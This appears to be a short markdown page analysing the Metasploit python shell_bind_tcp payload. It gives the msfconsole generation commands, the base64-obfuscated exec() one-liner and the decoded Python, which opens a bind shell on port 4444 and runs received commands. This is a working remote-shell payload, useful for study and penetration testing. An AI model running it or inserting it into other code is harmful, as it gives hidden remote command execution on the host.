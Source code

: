 # Metasploit python shell_bind_tcp (single payload)

## Single payload

Source: https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/python/bind_tcp.rb

### Generate
```
msf5 > use payload/python/shell_bind_tcp
msf5 payload(python/shell_bind_tcp) > generate -f raw -o single.py
```

### Result
```python
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJycsNDQ0NCkpCnNvLmxpc3RlbigxKQpzbyxhZGRyPXNvLmFjY2VwdCgpCkFTPUZhbHNlCndoaWxlIG5vdCBBUzoKCWRhdGE9c28ucmVjdigxMDI0KQoJc3RkaW4sc3Rkb3V0LHN0ZGVyciw9b3MucG9wZW4zKGRhdGEpCglzdGRvdXRfdmFsdWU9c3Rkb3V0LnJlYWQoKStzdGRlcnIucmVhZCgpCglzby5zZW5kKHN0ZG91dF92YWx1ZSkK'.decode('base64'))
```

### Base64 Decoded Content
```python
import socket,os
so=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
so.bind(('',4444))                                    # bind to first available interface (0.0.0.0)
so.listen(1)                                          # listen (blocking)
so,addr=so.accept()                                   # accept connection
AS=False
while not AS:
	data=so.recv(1024)                                  # recv cmd buffer
	stdin,stdout,stderr,=os.popen3(data)                # exec cmd as subprocess
	stdout_value=stdout.read()+stderr.read()
	so.send(stdout_value)                               # return stdout/stderr
```
